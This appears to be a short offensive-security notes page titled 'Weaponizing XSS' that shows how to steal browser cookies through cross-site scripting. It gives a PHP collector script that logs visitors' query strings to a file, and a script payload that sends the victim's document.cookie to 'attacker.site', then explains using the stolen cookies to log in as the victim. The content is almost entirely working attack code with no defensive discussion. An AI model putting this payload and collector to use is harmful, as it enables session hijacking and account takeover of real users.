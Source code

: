 ```yaml
---
description: Weaponizing XSS
---
```


# XSS cookie stealing

## get.php 

To store cookie on machine.

```php
<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];

# opens a logfile where we save the query
$fp = fopen('jar.txt','a');

fwrite($fp, $ip.' '.$browser."\n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);
?>
```

Using the PHP file above, if we make a GET request with the following param below, the `hereismydata` value gets stored in the `jar.txt` defined above 

```text
attacker.site/get.php?test=hereismydata
```

Using this, we can weaponize the XSS by crafting a payload to send the victim's cookies into the website. And then navigating to `attacker.site/jar.txt` we will see anyone who has cookies stolen.

```javascript
<script> var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>
//the escape function helps prevent breaking the statement
```

If a victim triggers the XSS payload, the private cookies would be stolen and sent to the jar.txt file.

![](../.gitbook/assets/image%20%2861%29.png)

We can then use the cookies and impersonate as the user to login.

